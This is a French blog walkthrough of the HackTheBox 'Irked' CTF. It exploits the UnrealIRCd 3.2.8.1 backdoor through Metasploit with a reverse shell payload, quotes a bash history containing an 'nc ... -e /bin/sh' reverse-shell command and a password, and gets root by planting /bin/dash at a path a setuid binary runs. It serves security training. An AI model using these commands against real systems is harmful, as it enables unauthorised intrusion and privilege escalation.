 # Solution du CTF Irked de HackTheBox

Fast
----

*Irked* est un CTF proposé par *MrAgent* sur *HackTheBox*.  

Platforme Linux et difficulté facile (20 points), c'est parti !  

La machine dispose de ports ouverts classiques mais aussi certains en rapport avec IRC :  

```plain
Nmap scan report for 10.10.10.117
Host is up (0.029s latency).
Not shown: 65513 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
111/tcp   open     rpcbind
142/tcp   filtered bl-idm
2092/tcp  filtered descent3
3663/tcp  filtered dtp
6697/tcp  open     ircs-u
7634/tcp  filtered hddtemp
8067/tcp  open     infi-async
8512/tcp  filtered unknown
10572/tcp filtered unknown
15124/tcp filtered unknown
16477/tcp filtered unknown
22681/tcp filtered unknown
29675/tcp filtered unknown
29926/tcp filtered unknown
46360/tcp filtered unknown
48368/tcp filtered unknown
48810/tcp filtered unknown
49419/tcp open     unknown
52182/tcp filtered unknown
65534/tcp open     unknown
```

Le serveur web ne retournant rien d'intéressant c'est le moment de lancer le client IRC XChat pour voir ce que l'on trouve :  

```plain
* *** Looking up your hostname...
* *** Couldn't resolve your hostname; using your IP address instead
* You have not registered
* Welcome to the ROXnet IRC Network devloop!devloop@10.10.13.166
* Your host is irked.htb, running version Unreal3.2.8.1
* This server was created Mon May 14 2018 at 13:12:50 EDT
* irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
* UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
* WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
* EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
* There are 1 users and 2 invisible on 1 servers
* I have 3 clients and 0 servers
* Current Local Users: 3  Max: 3
* Current Global Users: 3  Max: 3
* MOTD File is missing
* devloop active le mode +i devloop
* devloop active le mode +w devloop
* devloop active le mode +x devloop
```

On voit ici que le serveur IRCd est un Unread en version 3.2.8.1, bien connu pour inclure une backdoor ([voir solution du CTF Relativity](http://devloop.users.sourceforge.net/index.php?article71/solution-du-ctf-relativity)).  

*Metasploit* dispose d'un module pour cette vulnérabilité, il suffit juste de tester quelques payloads pour en trouver un fonctionnel :  

```plain
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.117     yes       The target address
   RPORT  6697             yes       The target port (TCP)

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.13.166     yes       The listen address (an interface may be specified)
   LPORT  80               yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 10.10.13.166:80
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.13.166:80 -> 10.10.10.117:33984) at 2019-02-03 12:07:42 +0100

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

Le système est un Debian 32 bits (*Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux*).  

Il y a un utilisateur qui possède le flag *user.txt* :  

```plain
1061877    4 drwxr-xr-x  18 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov
1177472    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.dbus
1061885    4 -rw-r--r--   1 djmardov djmardov      675 May 11  2018 /home/djmardov/.profile
1062684    0 lrwxrwxrwx   1 root     root            9 Nov  3 04:26 /home/djmardov/.bash_history -> /dev/null
1177702    4 drwx------   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/.ssh
1061894    4 drwxr-xr-x   2 djmardov djmardov     4096 May 14  2018 /home/djmardov/Downloads
1177456    4 drwxr-xr-x   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/Documents
1177813    4 -rw-------   1 djmardov djmardov       33 May 15  2018 /home/djmardov/Documents/user.txt
1177807    4 -rw-r--r--   1 djmardov djmardov       52 May 16  2018 /home/djmardov/Documents/.backup
1177703    4 drwx------   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/.gnupg
1061893    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Desktop
1177523    4 drwx------  13 djmardov djmardov     4096 May 15  2018 /home/djmardov/.cache
1177487    4 drwx------   3 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov/.gconf
1177477    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.local
1061897    8 -rw-------   1 djmardov djmardov     4706 Nov  3 04:40 /home/djmardov/.ICEauthority
1177457    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Music
1177455    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Public
1177467    4 drwx------  15 djmardov djmardov     4096 May 15  2018 /home/djmardov/.config
1061886    4 -rw-r--r--   1 djmardov djmardov      220 May 11  2018 /home/djmardov/.bash_logout
1061887    4 -rw-r--r--   1 djmardov djmardov     3515 May 11  2018 /home/djmardov/.bashrc
1177466    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Videos
1177458    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Pictures
1061895    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Templates
1177582    4 drwx------   4 djmardov djmardov     4096 May 11  2018 /home/djmardov/.mozilla
```

Le fichier *Documents/.backup* contient un mot de passe avec un indice laissant supposer qu'il faut utiliser un logiciel de stéganographie quelconque... pas trop envie XD  

And furious
-----------

Le fichier */home/ircd/.bash\_history* semble contenir des commandes de plus fort intérêt :  

```bash
echo '#!/bin/sh' > who
echo 'nc 10.10.13.255 4445 -e /bin/sh' >> who
chmod +x who
./who
/usr/bin/viewuser
su
su Kab6h+m+bbp2J
su
viewuser
exit
```

Malheureusement ce qui semble être un mot de passe ne semble pas permettre un accès SSH ni de passer root via *su* :(  

Le binaire *viewuser* semble être le chemin tout tracé :  

```plain
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

Une fois ce binaire récupéré on l'ouvre dans *Cutter* pour voir le *main()* :  

![HackTheBox Irked CTF viewuser disassembly in Cutter](https://github.com/devl00p/blog/raw/master/images/htb/irked_viewuser_main.png)

Et parmi les chaînes de caractères présentes dans le programme on voit */tmp/listusers* qui n'existe pas...  

```plain
ircd@irked:/var/www/html$ cp /bin/dash /tmp/listusers
ircd@irked:/var/www/html$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-02-03 08:08 (:0)
djmardov pts/2        2019-02-03 08:10 (10.10.14.226)
djmardov pts/0        2019-02-03 08:24 (10.10.14.13)
djmardov pts/8        2019-02-03 08:44 (10.10.12.244)
djmardov pts/10       2019-02-03 08:50 (10.10.15.100)
# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
# cd /root
# ls
pass.txt  root.txt
# cat root.txt
8d8e9e8 -- snip --22daf3
```


*Published April 27 2019 at 17 44*